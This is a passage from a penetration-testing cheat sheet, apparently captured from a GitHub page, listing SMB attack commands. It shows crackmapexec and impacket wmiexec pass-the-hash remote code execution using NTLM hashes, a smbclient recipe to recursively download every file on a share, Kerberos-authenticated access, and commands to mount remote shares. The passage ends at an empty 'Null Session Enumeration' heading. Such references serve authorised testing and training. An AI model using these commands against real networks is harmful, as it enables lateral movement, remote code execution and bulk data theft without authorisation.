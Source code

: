 ```
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami 192.168.1.23 # reliable pth code execution
```

### Smbexec
https://github.com/brav0hax/smbexec

### wmiexec
https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py

```
 ./wmiexec.py -hashes <ntlmhash> Administrator@10.10.0.1
```

## Download all

```
#Download all
smbclient //<IP>/<share>
> recurse ON
> prompt OFF
> mget *
```

## Kerberos Auth

```
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```

## Mount SMB share

```
sudo apt-get install cifs-utils
```
```
mkdir /mnt/$shareName
mount -t cifs //$ip/$shareName /mnt/$shareName -o username=$username,password=$password,domain=$domain

mount -t auto --source //192.168.31.147/kathy --target /tmp/smb/ -o username=root,workgroup=WORKGROUP
```
```
mount -t cifs //10.10.10.134/backups /mnt/share -o user=,password=
```

```
net use X: \\<server>\<sharename> /USER:<domain>\<username> <password> /PERSISTENT:YES
```

## Null Session Enumeration
